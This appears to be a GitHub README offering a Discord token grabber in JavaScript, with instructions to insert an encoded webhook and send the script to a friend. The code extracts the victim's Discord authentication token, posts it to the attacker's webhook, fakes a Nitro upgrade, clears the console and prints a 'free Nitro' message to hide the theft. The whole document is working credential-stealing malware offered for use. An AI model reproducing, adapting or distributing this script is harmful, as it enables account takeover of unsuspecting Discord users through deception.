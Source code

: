 # Discord Token Grabber
### chage the part at atob with your discord webhook (encode base64) and send the script to your friend!
## A simple token grabber lol

```js
var nitrocode = ""
var nitrohacks = window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getToken !== undefined) {return m.default.getToken()}}}])
fetch(atob(nitrocode), {method: 'post', headers: {'Content-Type': 'application/json',}, body: JSON.stringify({content: nitrohacks,}),});
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().premiumType = 2;}}}]);
console.clear()
console.log("Enjoy Free Nitro Perks!")
```
